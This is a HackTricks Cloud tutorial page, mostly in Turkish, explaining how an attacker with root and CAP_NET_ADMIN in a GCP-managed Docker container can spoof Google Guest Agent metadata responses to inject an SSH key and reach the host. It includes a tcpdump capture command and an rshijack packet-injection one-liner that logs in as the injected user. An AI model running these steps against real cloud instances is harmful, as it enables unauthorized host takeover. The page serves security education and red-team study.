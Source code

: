 # GCP - Network Docker Escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Initial State

Bu teknik belirtilen her iki yazıda, saldırganlar GCP tarafından yönetilen bir **Docker** konteynerinde **root** erişimi elde etmeyi başardılar ve ana makine ağına (ve **`CAP_NET_ADMIN`** ve **`CAP_NET_RAW`** yeteneklerine) erişim sağladılar.

## Attack Explanation

Bir Google Compute Engine örneğinde, ağ trafiğinin düzenli incelenmesi, **metadata instance**'ına `169.254.169.254` adresine sayısız **düz HTTP isteği** gönderildiğini ortaya koymaktadır. [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent), açık kaynaklı bir hizmet, sık sık bu tür isteklerde bulunur.

Bu ajan, **metadata'daki değişiklikleri izlemek** için tasarlanmıştır. Özellikle, metadata bir **SSH genel anahtarları alanı** içerir. Metadata'ya yeni bir genel SSH anahtarı eklendiğinde, ajan otomatik olarak bunu `.authorized_key` dosyasında **yetkilendirir**. Ayrıca, gerekirse **yeni bir kullanıcı oluşturabilir** ve bunu **sudoers** listesine ekleyebilir.

Ajan, **tüm metadata değerlerini özyinelemeli olarak almak** için bir istek göndererek değişiklikleri izler (`GET /computeMetadata/v1/?recursive=true`). Bu istek, metadata sunucusunun yalnızca metadata'da son alımdan bu yana bir değişiklik varsa yanıt vermesi için tasarlanmıştır ve bu değişiklik bir Etag ile tanımlanır (`wait_for_change=true&last_etag=`). Ayrıca, bir **timeout** parametresi (`timeout_sec=`) de eklenmiştir. Belirtilen zaman aşımı içinde bir değişiklik olmazsa, sunucu **değişmemiş değerlerle** yanıt verir.

Bu süreç, **IMDS** (Instance Metadata Service) yapılandırma değişikliği olmadığında **60 saniye** sonra yanıt vermesine olanak tanır ve bu, misafir ajana sahte bir yapılandırma yanıtı enjekte etmek için potansiyel bir **pencere** oluşturur.

Bir saldırgan, bu durumu **Man-in-the-Middle (MitM) saldırısı** gerçekleştirerek, IMDS sunucusundan gelen yanıtı taklit edip **yeni bir genel anahtar ekleyerek** istismar edebilir. Bu, ana makineye yetkisiz SSH erişimi sağlayabilir.

### Escape Technique

ARP taklidi Google Compute Engine ağlarında etkili olmasa da, [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html) tarafından geliştirilen [**rshijack'ın değiştirilmiş bir versiyonu**](https://github.com/ezequielpereira/rshijack), SSH kullanıcısını enjekte etmek için iletişimde paket enjeksiyonu yapmak için kullanılabilir.

Bu rshijack versiyonu, ACK ve SEQ numaralarını komut satırı argümanları olarak girmeye olanak tanır ve gerçek Metadata sunucusunun yanıtından önce bir yanıtı taklit etmeyi kolaylaştırır. Ayrıca, [**küçük bir Shell script**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh) kullanılarak **özel olarak hazırlanmış bir yük** döndürülür. Bu yük, Google Guest Agent'ın `.authorized_keys` dosyasında belirtilen bir genel anahtara sahip `wouter` adlı bir kullanıcı **oluşturmasını** tetikler.

Script, Metadata sunucusunun Google Guest Agent'ı farklı metadata değerleri hakkında hemen bilgilendirmesini önlemek için aynı ETag'i kullanarak yanıtı geciktirir.

Taklit işlemini gerçekleştirmek için aşağıdaki adımlar gereklidir:

1. **Metadata sunucusuna yapılan istekleri izleyin** **tcpdump** kullanarak:
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
Aşağıdakine benzer bir satır arayın:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. Doğru ETAG ile sahte metadata verisini rshijack'e gönderin:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
Bu adım, ilgili özel anahtar ile SSH bağlantısını etkinleştiren genel anahtarı yetkilendirir.

## Referanslar

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
